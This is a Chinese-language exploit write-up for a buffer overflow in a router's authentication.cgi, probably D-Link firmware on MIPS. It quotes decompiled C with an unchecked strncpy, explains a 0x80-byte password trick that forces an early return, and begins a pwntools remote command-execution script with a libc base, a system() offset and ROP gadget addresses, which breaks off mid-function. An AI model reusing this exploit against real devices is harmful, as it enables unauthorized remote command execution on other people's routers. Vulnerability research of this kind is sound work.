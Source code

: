 明显的溢出，**关键如何构造参数使其绕过很多中间流程直接返回**，这样易于我们利用

```c
/*这里主要对参数中的id，和password内容提取*/
		do {
              pcVar12 = ptr_1;
              if (*pcVar12 == '&') break;
              ptr_1 = pcVar12 + 1;
            } while (*pcVar12 != '\0');
            pcVar12 = pcVar12 + -(int)ptr_2;
            if (iVar2 == 0) {
                    /* overflow  */
              strncpy(dest_1,ptr_2,(size_t)pcVar12);
              buf_id[(int)pcVar12] = '\0';
            }
            else {
              if (iVar2 != 1) goto LAB_0040b614;
              strncpy(buf_passwd,ptr_2,(size_t)pcVar12);
              buf_passwd[(int)pcVar12] = '\0';
            }
            iVar2 = iVar2 + 1;
            ppuVar14 = ppuVar14 + 1;
          } while (iVar2 != 2);
          memset(local_e1c,0,0x84);
          iVar2 = FUN_0040aacc(local_e1c,buf_env);
          if (iVar2 < 0) {
            uVar11 = 6;
            goto LAB_0040bca8;
          }
```

<img src="C:\Users\23347\AppData\Roaming\Typora\typora-user-images\image-20210729151651474.png" alt="image-20210729151651474" style="zoom:50%;" />

这里让password 的长度刚好等于0x80那么在增加截断符时就会使buf_env第一个字符覆盖为\x00。使得FUN_0040aacc返回-1直接准备返回。

因为把password限制在0x80所以在后面再加一个`&payload=`.主要这里没有对参数长度和个数的检查。接下来利用起来就比较简答了基本操作。但是libc基址还是未知的

### 漏洞利用

````python
#!/usr/bin/env python
from pwn import*
import requests
import sys
import httplib


#httplib.HTTPConnection._http_vsn = 10
#httplib.HTTPConnection._http_vsn_str = 'HTTP/1.0'

context.arch = "mips"
context.endian = "little"
#"password=$(python -c "print 'A'*355^C&id=$(cyclic 600)"

url = sys.argv[1] + '/authentication.cgi'
cmd = sys.argv[2]

libc_addr = 0x2aaf800  #
system_off = 0x0053200
gadget_1 = 0x000368CC 	#addiu $s1,$s0,0xC                                   |  jalr  $s4
gadget_2 = 0x00057AE0 	#addiu $s1,$sp,0x40+var_28                           |  jalr  $s3
gadget_3 = 0x00328BC	#move $t9, $s1                                       |  jalr  $t9
gadget_4 = 0x00012E6C	#move $a0,$s1                                        |  jalr  $s6 
gadget_5 = 0x00023A34	#addiu $s1,$sp,0xB0+var_78                           |  jalr  $s2
def payload_maker():
	payload = "password=" + 'A'*0x80
````